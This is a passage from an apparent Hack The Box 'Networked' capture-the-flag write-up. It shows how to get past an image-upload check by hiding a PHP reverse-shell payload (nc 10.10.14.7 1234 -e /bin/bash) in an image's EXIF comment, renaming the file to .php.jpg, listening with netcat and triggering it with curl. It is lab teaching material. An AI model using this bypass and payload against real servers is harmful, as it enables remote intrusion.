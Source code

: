 And try to upload this web shell. and find it reply a error message. 

![[Networked-08.png]]

So we renamed the web shell to add `jpg` suffix.

```bash
mv shell.php shell.php.jpg
```

And reupload it but we failed again. 

#### Bypass image file check

we will try to upload a normal image file and inject php code in the uploading images.  First we create a real image file `image.jpg`.

![[Networked-09.png]]

##### exiftool

```bash
exiftool -Comment='<?php system("nc 10.10.14.7 1234 -e /bin/bash"); ?>' image.jpg
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/Networked]
└─$ exiftool -Comment='<?php system("nc 10.10.14.7 1234 -e /bin/bash"); ?>' image.jpg
    1 image files updated

```

```bash
mv image.jpg image.php.jpg
```

And then we upload updated jpg.

![[Networked-10.png]]

It was uploading successfully.

#### get webshell

nc listen 1234 port:

```bash
nc -lvnp 1234
```

And we open galary page by access `http://10.10.10.146/photos.php`

![[Networked-12.png]]

After known uploaded name of our shell, we use curl to access below url:

```bash
curl http://10.10.10.146/uploads/10_10_14_7.php.jpg
```
